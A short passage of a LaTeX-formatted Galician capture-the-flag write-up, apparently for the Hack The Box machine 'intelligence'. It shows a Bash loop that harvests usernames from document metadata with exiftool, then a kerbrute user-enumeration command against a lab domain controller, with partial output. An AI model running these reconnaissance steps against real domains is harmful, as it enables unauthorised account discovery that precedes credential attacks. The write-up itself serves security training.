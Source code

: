 \documentclass[a4paper]{article}
\begin{document}
En uploads temos os arquivos descargados, co cal xeramos un novo script tal que mediante \textbf{exiftool} imos quedarnos co parametro \textbf{Creator}, de tal xeito que imos xerar un ficheiro cos posibles usuarios do dominio:
        \begin{lstlisting}[language=Bash, caption=Descargar documentos]
$ for i in $(ls uploads)
do
  exiftool uploads/$i | grep -i creator 2>/dev/null | tee -a creators.txt
done
$ sort -u creators.txt | awk '{print $NF}' | sponge creators.txt\end{lstlisting}

Agora imos de novo con kerbrute validar se os usuarios atopados existen no dominio:

        \begin{lstlisting}[language=Bash, caption=kerbrute]
$ kerbrute userenum --dc 10.10.10.248 -d intelligence.htb creators.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 06/05/22 - Ronnie Flathers @ropnop

2022/06/05 20:59:57 >  Using KDC(s):
2022/06/05 20:59:57 >  	10.10.10.248:88


\end{lstlisting}
\end{document}
